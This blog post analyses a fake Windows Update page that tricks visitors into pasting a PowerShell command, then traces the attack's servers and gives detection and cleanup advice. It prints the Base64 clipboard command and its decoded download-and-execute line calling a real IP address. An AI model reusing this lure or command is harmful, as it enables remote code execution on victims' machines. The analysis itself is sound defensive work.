






# The Windows Update That Asked Me to Open PowerShell

**Subtitle:** A fake update screen, three keystrokes, and a Base64 string that downloads whatever the attacker feels like running.

**Tags:** Cybersecurity, Malware Analysis, PowerShell, Phishing, Threat Intelligence

---

I was following a thread of links while researching something unrelated. One of them was `dateseni.su/rave/next.php`. I clicked it without thinking, the way you click anything in a tab you opened four hours ago.

The screen went black.

My first reaction was annoyance. Windows Update, again, at the worst possible time. A progress bar appeared and started crawling. I checked the clock. Then it hit 90% and stopped, and the screen said something I had never seen an update say.

The update needs your help to finish.

1. Press Windows + X
2. Press I
3. Press Control + V

I read it twice. Then I looked at the edges of the screen and noticed there were no edges, because this was a browser in fullscreen, not a system dialog.

## What those three keys do

Windows + X opens the Power User menu in the bottom left. It is the menu with Terminal, Device Manager, Disk Management and a list of other tools that administrators use to move fast.

Pressing `I` while that menu is open selects Terminal, or Windows PowerShell depending on the build. No icon, no confirmation, no prompt asking whether you meant it.

Control + V pastes whatever is on the clipboard.

So the page had walked me into a terminal and pasted a command for me. I never typed it. I never read it before it was sitting in the prompt. The clipboard had been loaded before the progress bar appeared.

## What was on the clipboard

```
iex([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String('SW52b2tlLVdlYlJlcXVlc3QgJ2h0dHA6Ly8xNjYuMS44OS45MS96YXAvJyAtVXNlQmFzaWNQYXJzaW5nIHwgSW52b2tlLUV4cHJlc3Npb24=')))
```

Decoding Base64 does not run anything, so I decoded it. One layer, nothing clever:

```
Invoke-WebRequest 'http://166.1.89.91/zap/' -UseBasicParsing | Invoke-Expression
```

That is the entire payload. It downloads a URL, then executes whatever came back, in memory, inside a PowerShell process that Windows has signed and that my antivirus was told to trust.

Two cmdlets and a pipe. No executable, no DLL, no installer, nothing in Downloads. Nothing for a file scanner to pick up, and if someone asked me afterwards for a sample, there was no file to hand over.

The Base64 is not there to slow an analyst down. It takes a second to decode, and any tool that cares will decode it for you. It is there so that a person pasting into a terminal sees a wall of letters instead of `http://166.1.89.91/zap/`.

## Going back to look

I came back to the URL later to write it up properly. By then the page was gone.

`http://dateseni.su/rave/next.php` returns a plain 404 from `nginx/1.18.0`. The `Last-Modified` header says August. Port 443 refuses connections entirely, so the HTTPS link I originally clicked cannot even open a socket today.


The domain root serves the default placeholder that hosting panels leave behind after a fresh install: "Success! Your new web server is ready to use."



That is what a retired campaign looks like from the outside. The kit is removed, the vhost is reset, and the server is still sitting there waiting to be used for something else.

The payload server is a different story.

## Two servers that have nothing to do with each other

The link lived on `dateseni.su`, which resolves to a machine in Frankfurt on AS214351. The payload came from `166.1.89.91`, which sits in New York on AS395839. Different provider, different country, different network. The domain uses Russian nameservers under the `.su` TLD.



Blocking the domain does not stop the payload. Blocking the payload does not stop the domain. Whoever built this expected one of them to get reported and the other to survive, which is exactly how it played out. The lure has been taken down. The payload host answered my request five months later with the same redirect it gave a sandbox in November.

## The certificate gave away what the domain was for

Certificate transparency logs are public, and they list every hostname a certificate covers. This domain's certificate covered more than a website needs:

```
autodiscover.dateseni.su
dateseni.su
mail.dateseni.su
owa.dateseni.su
www.dateseni.su
```



`owa` is Outlook Web Access. `autodiscover` is what Outlook calls to find its mail settings.

A domain that exists to bounce visitors to another page has no reason to ask for those names. That set is what you build when you plan to send mail from a lookalike domain and catch the people who click on a fake webmail login. The fake update was one campaign on infrastructure that had a mail phishing kit behind it.

## Why every scanner says it is clean

The archived copy of the page is not the fake update. It is a 124-byte redirect to an adult video site. Method used, anyone who checks the link sees porn or a 404, never the thing I saw.

The payload host does the same. urlscan's sandbox asked for `/zap` on 12 November from a node in Germany and got a four-hop redirect that ended on `www.google.com`.





The sandbox got a German Google consent page. Real visitors get the malware. This is called cloaking, and it means that a clean scan result on a page like this tells you about the decoy and nothing about the payload.

I checked the same host while writing this, with a single HEAD request. Still `302 Found`, still `Location: https://www.google.com/`, still `Apache/2.4.52`. Five days after the sandbox scan, the selection logic was running exactly as before.

## The attackers do not patch their own servers

Shodan keeps a lightweight record of what is exposed on an IP. Both machines had ports 22 and 80 open and nothing else.

The lure box runs nginx 1.18.0, tagged end of life. The payload box runs Apache 2.4.52, released in December 2021, with a CVE list long enough to wrap several lines. Both run the same OpenSSH build and neither has a hostname set.



It is worth noticing that the people running this did not patch the thing they were using to attack me. These boxes are probably rented, probably shared, and possibly already compromised by someone else.

## What a defender should take from this

The detection that matters is not a domain block. The domains are disposable and the payload never touches the domain anyway.

The signal is the behaviour at the endpoint:

- PowerShell whose parent process is `explorer.exe`. That is the `Win+X` then `I` path. Normal PowerShell does not start from Explorer.
- A command line containing both a download cmdlet and `Invoke-Expression`.
- An outbound HTTP request to a bare IP address, with no DNS lookup before it.
- Script block logging, which records the decoded code even when the command line is obfuscated.

If you run a Windows fleet, turn on Script Block Logging. It costs very little and it is the one control that survives re-encoding.

## If this happens to you

Clear the clipboard first. The command is still there and one stray paste into a terminal runs it. Then close the browser completely, clear the site's permissions and storage, and check your download history.

If you actually pressed Enter, treat the machine as compromised. Disconnect from the network. Change your passwords from a different device. Revoke active sessions, because these loaders steal session cookies and a password change alone does not log an attacker out. Then reinstall the operating system. With an unknown second stage there is no honest way to prove a clean-up worked.

## The part I keep thinking about

The page never executed anything on its own. It could not. The whole attack depended on me doing it, and it almost worked because the story fit what I already expected. Something changed on my screen without warning, my instinct was to explain it as Windows being Windows, and a progress bar at 90% made stopping feel like wasting work.

The only thing that broke the spell was a detail I noticed by accident: the update was inside a browser window.

Windows Update has never run inside Chrome. If you take one habit from this, make it that one. When something on your screen demands urgent action, look at the edges first and ask which application it is actually running in.

---

*Analysis based on static inspection of the payload, passive public records, and minimal live checks: TCP connects, one GET per web path, one HEAD request. The payload was never executed and the second stage was never downloaded.*
